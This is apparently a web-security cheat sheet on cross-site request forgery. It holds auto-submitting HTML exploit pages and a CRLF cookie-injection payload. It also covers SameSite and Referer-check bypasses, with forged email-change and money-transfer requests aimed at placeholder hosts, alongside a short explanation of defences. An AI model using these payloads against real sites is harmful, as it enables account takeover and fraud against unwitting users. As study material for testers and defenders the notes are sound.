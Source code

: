 # CSRF

## <mark style="color:yellow;">**Exploit**</mark>

**With POST**

```html
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

**With GET**

```html
<img src="https://vulnerable-website.com/email/change?email=pwned@evil-user.net">
```

## <mark style="color:yellow;">Defences</mark>

<details>

<summary>CSRF tokens</summary>

A CSRF token is a unique, secret, and unpredictable value that is generated by the server-side application and shared with the client

```html
<form name="change-email-form" action="/my-account/change-email" method="POST">
    <label>Email</label>
    <input required type="email" name="email" value="example@normal-website.com">
    <input required type="hidden" name="csrf" value="50FaWgdOhi9M9wyna8taR1k3ODOR8d6u">
    <button class='button' type='submit'> Update email </button>
</form>
```

</details>

<details>

<summary>SameSite cookies</summary>

Controls whether or not a cookie is sent with cross-site requests

If the website doesn't explicitly set a `SameSite` attribute, Chrome automatically applies `Lax` restrictions by default.

* `Strict` Means that the browser sends the cookie only for same-site requests

<!---->

*   `Lax` Means that browser sends the cookie in cross-site requests, if:

    * The request uses the `GET` method.
    * The request resulted from a top-level navigation by the user, such as clicking on a link.

    The cookie is not sent on cross-site requests, such as on requests to load images or frames.
* `None` Means that the browser sends the cookie with both cross-site and same-site requests. The `Secure` attribute must also be set when setting this value, like so `SameSite=None; Secure`

</details>

<details>

<summary>Referer-based validation</summary>

Some applications make use of the HTTP Referer header to attempt to defend against CSRF attacks, normally by verifying that the request originated from the application's own domain

</details>

## <mark style="color:yellow;">CSRF tokens bypass</mark>

* Switch from POST to the GET method
* Remove the parameter containing the token
* Invent a token in the required format (the app doesn't keep valid server-side tokens).
* Log in to the application with your account, obtain a valid token, and then feed that token to the victim user in their CSRF attack  (some apps don't validate if the token belongs to the same session as the requesting user).
*   Are there two token: one in a cookie and one in hidden input? (this can also have the same value)

    * Some apps do tie the CSRF token to a cookie, but not to the session cookie.
    * Can you set a cookie? Ex. Header injection with `CRLF`.(`%0d%0a`)
    * ```
      /?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None
      ```
    * Log in to the application with your account -> obtain a valid token and associated cookie.
    * Generate CSRF PoC and remove the auto-submit `<script>` block. Then add the following code to inject the cookie.

    ```html
    <img src="https://vulnerable-website.com/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None" onerror="document.forms[0].submit()">
    ```

## <mark style="color:yellow;">SameSite cookies bypass</mark>

### Lax bypass

* Using GET requests (bypass lax)

```html
<script>
    document.location = 'https://vulnerable-website.com/account/transfer-payment?recipient=hacker&amount=1000000';
</script>
```

* GET method override (bypass lax)
  * Even if an ordinary `GET` request isn't allowed, some frameworks supports `_method` parameter. (Other frameworks support a variety of similar parameters)
  * ```http
    GET /my-account/change-email?email=a@a.com&_method=POST HTTP/1.1
    ```

### <mark style="color:yellow;">Strict bypass</mark>

Bypass via client-side redirect. Consider a page `https://vulnerable-website.com/post/confirm?postId=10` that load this script.

```javascript
redirectOnConfirmation = () => {
    setTimeout(() => {
        const url = new URL(window.location);
        const postId = url.searchParams.get("postId");
        window.location = '/post/' + postId;
    }, 3000);
}
```

```html
<script>
    document.location = "https://vulnerable-website.com/post/confirm?postId=10/../../my-account/change-email?email=a@a.com";
</script>
```

{% hint style="info" %}
**Note**: this attack isn't possible with server-side redirects, as browsers recognize the cross-site request and apply cookie restrictions.
{% endhint %}

## <mark style="color:yellow;">Referer-based validation bypass</mark>

* Some apps validate the Referer header if present, but skip if omitted

```html
<meta name="referrer" content="never">
```

* Validation of Referer can be circumvented
  * ```
    http://vulnerable-website.com.attacker-website.com/csrf-attack
    http://attacker-website.com/csrf-attack?vulnerable-website.com
    http://attacker-website.com/vulnerable-website.com
    ```
  * To sed referer you need to add `Referrer-Policy: unsafe-url`. One way to set it in html: `<meta name="referrer" content="unsafe-url"/>`

{% hint style="success" %}
**Tip**: Instead of use `http://attacker-website.com/vulnerable-website.com` that looks strange you can use `http://attacker-website.com/` and add `<script>history.pushState('', '', '/vulnerable-website.com')</script>`

<pre class="language-html"><code class="lang-html">&#x3C;!-- http://attacker-website.com/ -->
<strong>&#x3C;html>
</strong>  &#x3C;meta name="referrer" content="unsafe-url"/>
  &#x3C;body>
    &#x3C;form action="https://vulnerable-website.com/change-email" method="POST">
      &#x3C;input type="hidden" name="email" value="test@test.com" />
      &#x3C;input type="submit" value="Submit request" />
    &#x3C;/form>
    &#x3C;script>
      history.pushState('', '', '/vulnerable-website.com');
      document.forms[0].submit();
    &#x3C;/script>
  &#x3C;/body>
&#x3C;/html>
</code></pre>
{% endhint %}

Firefox 87 new default Referrer Policy `strict-origin-when-cross-origin` trimming user sensitive information like path and query string to protect privacy. ([https://blog.mozilla.org/security/2021/03/22/firefox-87-trims-http-referrers-by-default-to-protect-user-privacy/](https://blog.mozilla.org/security/2021/03/22/firefox-87-trims-http-referrers-by-default-to-protect-user-privacy/))
